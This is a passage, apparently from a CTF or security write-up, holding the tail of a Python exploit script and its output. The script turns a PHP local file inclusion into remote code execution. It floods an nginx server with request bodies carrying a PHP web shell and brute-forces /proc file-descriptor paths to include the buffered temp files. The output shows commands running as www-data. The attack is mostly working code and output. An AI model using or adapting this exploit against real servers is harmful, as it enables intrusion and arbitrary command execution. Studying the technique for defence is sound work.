 ```python
    while not done:
        requests.get(URL, data='<?php system($_GET["c"]); /*' + 16*1024*'A')

for _ in range(16):
    t = threading.Thread(target=uploader)
    t.start()

# brute force nginx's fds to include body files via procfs
# use ../../ to bypass include's readlink / stat problems with resolving fds to `/var/lib/nginx/body/0000001150 (deleted)`
def bruter(pid):
    global done

    while not done:
        print(f'[+] brute loop restarted: {pid}')
        for fd in range(4, 32):
            f = f'/proc/self/fd/{pid}/../../../{pid}/fd/{fd}'
            r  = requests.get(URL, params={
                'file': f,
                'c': f'id'
            })
            if r.text:
                print(f'[!] {f}: {r.text}')
                done = True
                exit()

for pid in nginx_workers:
    a = threading.Thread(target=bruter, args=(pid, ))
    a.start()
```

Output:

```
$ ./pwn.py 127.0.0.1 1337
[*] cpus: 2; pid_max: 32768
[*] nginx worker found: 33
[*] nginx worker found: 34
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] brute loop restarted: 33
[+] brute loop restarted: 34
[!] /proc/self/fd/34/../../../34/fd/9: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
